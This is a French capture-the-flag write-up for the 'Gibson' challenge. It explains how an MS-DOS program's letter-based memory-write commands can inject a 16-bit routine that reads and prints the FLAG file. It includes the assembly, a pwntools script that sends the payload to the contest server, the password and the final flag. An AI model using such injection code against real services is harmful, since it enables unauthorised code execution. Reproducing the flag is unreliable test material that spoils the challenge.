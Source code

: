 Ce programme est un programme MSDOS .COM en 16 bits.

Il commence par demander un mot de passe (HACKTHEPLANET) puis propose de charger
en mémoire à partir de l'adresse 0x19a un code suivante une règle simple:

                cmp     al, 0Ah         ; line feed -> stop
                jz      short loc_9A
                cmp     al, 41h ; 'A'   ; A -> BX ++
                jz      short loc_76
                cmp     al, 42h ; 'B'   ; B -> BX--
                jz      short loc_7B
                cmp     al, 43h ; 'C'   ; C -> CX--
                jz      short loc_80
                cmp     al, 44h ; 'D'   ; D -> CX++
                jz      short loc_85
                cmp     al, 45h ; 'E'   ; E : [BX] <- CX
                jz      short loc_8A
                jmp     short loc_58

En jouant avec ces lettres on peut donc faire un programme MSDOS et l'éxécuter

Le programme suivant liit le fichier FLAG et l'affiche à l'écran

org 019ah
[BITS 16]
	mov ah,3dh
	mov al,0h
	mov dx,nom
	push ds
	pop es
	mov cx,0
	mov si,0
	mov di,0
	int 21h	; le fichier est ouvert
	mov bx,ax
	mov dx,buf
	mov ah,3fh
	mov cx,100h
	int 21h			; on l lit dans la DTA
	mov dx,buf
	mov ah,9
	int 21h
	mov ah,4Ch
	int 21h
nom:
	db	"FLAG",0
buf:
	db	0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,0,"$"


(le $ est là pour s'assurer que la chaine sera afficher correctement).

Le programme python suivant transcrit le fichier .com obtenu par nasm en
commandes pour Gibson et lui transmet.

#!/usr/bin/python
import sys
from pwn import *
from time import sleep

if (len(sys.argv)>1):
    f=open(sys.argv[1],"r")
    final=f.read()
    f.close()

bx=0x19a
cx=0x0
s=""
for i in range(len(final)):
    c=ord(final[i])
#    print hex(c),
    if (c < cx):
        s=s+"C"*(cx-c)
        cx=c
    elif (c>cx):
        s=s+"D"*(c-cx)
        cx=c
    s=s+"EA"
    bx=bx+1
s=s+"\r\n"
print s
for i in range(3):
    p=remote("pwn.sect.ctf.rocks", 4444)
    sleep(2)
    p.sendline("\n")
    sleep(5)
    p.sendline("HACKTHEPLANET")
    sleep(0.5)
    sleep(0.5)
    p.send(s)
    print p.recvall(120)
    p.close()


Il est executée 3 fois parce que des difficultés de transmission ont eu lieu.

La sortie est récupérée par wireshark.

On récupère le flag comme suit:

francois@aramis:~/BFF/ctfrocks2017/Gibson$ strings essai6.pcapng  | grep SECT
M*USECT{MEMBER_MSDOS_I_MEMBER}
[22;1HOK! BACKDOOR CMD: SECT{MEMBER_MSDOS_I_MEMBER}
francois@aramis:~/BFF/ctfrocks2017/Gibson$ 

Réponse: SECT{MEMBER_MSDOS_I_MEMBER}